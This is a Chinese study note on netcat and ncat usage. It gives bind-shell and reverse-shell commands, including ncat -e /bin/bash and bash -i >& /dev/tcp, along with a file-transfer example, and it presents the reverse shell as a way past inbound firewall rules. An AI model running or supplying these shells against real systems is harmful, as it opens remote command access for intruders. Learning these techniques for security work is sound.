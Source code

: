 -k 客户端断开时，服务器继续运行

```bash
ncat -lk -e /bin/bash <port>
```

这种方式的最大问题是，服务器往往处于内网中，防火墙默认拒绝所有外来连接。所以实用性并不高。

### 反弹shell [^527F2AAA257F] [^D9D699879A4D]

将服务器和客户端的角色调转，发送命令者为服务器，接收命令者定期连接指定地址和端口来接收命令。这样可以一定程度规避防火墙的默认策略。

外网命令发起者

```bash
ncat -l <port>
```

内网命令接受者

-w 等待连接的时间（秒）

```bash
ncat -w 10 -e /bin/bash <ip/domain> <port>
```

### 不支持e选项的反弹shell

外网命令发起者

如果是ncat

```bash
ncat -l <port>
```

如果是第二类nc（不带-e选项的版本）

```bash
nc -lp <port>
```

内网命令接收端

```bash
bash -i >& /dev/tcp/<ip><port> 0>&1
```

上述命令将bash和tcp连接关联起来[[201911051527]]

### 文件传输 [^527F2AAA257F] [^D9D699879A4D]

文件接收端

```bash
ncat -l 2333 > hello.txt
```

文件发送端

```bash
ncat www.sqlsec.com 2333 < hello.txt
```


[^527F2AAA257F]: [[nc命令学习记录]]
[^D9D699879A4D]: [[扫盲 netcat（网猫）的 N 种用法——从“网络诊断”到“系统入侵” @ 编程随想的博客]]